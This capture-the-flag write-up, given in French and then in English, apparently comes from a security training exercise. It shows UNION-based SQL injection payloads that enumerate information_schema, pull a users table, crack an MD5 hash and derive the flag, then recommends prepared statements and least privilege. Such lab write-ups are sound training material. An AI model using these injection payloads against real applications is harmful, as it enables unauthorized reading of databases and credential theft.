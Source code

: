 # Reproduction :  

Sur la page **member**, on a utilisé une injection SQL pour explorer la base de données et obtenir le flag.  

1. Récupération des tables disponibles :  
   ```sql
   1 UNION SELECT table_name, null FROM information_schema.tables;
   ```  

2. Exploration des colonnes :  
   ```sql
   1 UNION SELECT column_name, null FROM information_schema.columns;
   ```  

3. Extraction des données de la table `users` :  
   ```sql
   1 UNION SELECT 1, first_name FROM users;
   ```  
   **Résultat intriguant** :  
   - ID : 1 UNION SELECT 1, first_name FROM users  
   - First name : 1  
   - Surname : Flag  

4. Récupération d’informations pour l’utilisateur avec `user_id = 5` (car il vient en 5ème position dans notre précédente recherche) :  
   ```sql
   1 UNION SELECT Commentaire, countersign FROM users WHERE user_id = 5;
   ```  
   **Résultat** :  
   - Countersign : `5ff9d0165b4f92b14994e5c685cdce28`  

5. Décryptage et transformation :  
   - MD5 → Texte clair : `FortyTwo`  
   - Minuscule : `fortytwo`  
   - SHA-256 : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`  

# Problème :  
L’application est vulnérable à une injection SQL, permettant de lire des données sensibles et d’explorer toute la base de données.  

# Solution :  
1. **Requêtes préparées** :  
   Utiliser des paramètres pour empêcher l’exécution directe des entrées utilisateur, exemple en PHP :  
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id, PDO::PARAM_INT);
   $stmt->execute();
   ```  

2. **Validation des entrées** :  
   Toujours filtrer les entrées pour éviter l’exécution de commandes SQL.  

3. **Privilèges limités** :  
   L’utilisateur de la base ne doit pas avoir accès à des données comme `information_schema`.  

Avec ces corrections, on bloque ce type d’attaque.

-------------------------
-------------------------
-------------------------
-------------------------

# Reproduction:  

On the **member** page, we used SQL injection to explore the database and obtain the flag.  

1. Retrieving available tables:  
   ```sql
   1 UNION SELECT table_name, null FROM information_schema.tables;
   ```  

2. Exploring columns:  
   ```sql
   1 UNION SELECT column_name, null FROM information_schema.columns;
   ```  

3. Extracting data from the `users` table:  
   ```sql
   1 UNION SELECT 1, first_name FROM users;
   ```  
   **Intriguing result**:  
   - ID: 1 UNION SELECT 1, first_name FROM users  
   - First name: 1  
   - Surname: Flag  

4. Retrieving information for the user with `user_id = 5` (as it comes in 5th position from our previous search):  
   ```sql
   1 UNION SELECT Commentaire, countersign FROM users WHERE user_id = 5;
   ```  
   **Result**:  
   - Countersign: `5ff9d0165b4f92b14994e5c685cdce28`  

5. Decrypting and transforming:  
   - MD5 → Plain text: `FortyTwo`  
   - Lowercase: `fortytwo`  
   - SHA-256: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`  

# Problem:  
The application is vulnerable to SQL injection, allowing reading of sensitive data and exploration of the entire database.  

# Solution:  
1. **Prepared statements**:  
   Use parameters to prevent direct execution of user inputs, for example in PHP:  
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id, PDO::PARAM_INT);
   $stmt->execute();
   ```  

2. **Input validation**:  
   Always filter inputs to prevent the execution of SQL commands.  

3. **Limited privileges**:  
   The database user should not have access to sensitive data such as `information_schema`.  

With these corrections, we can block this type of attack.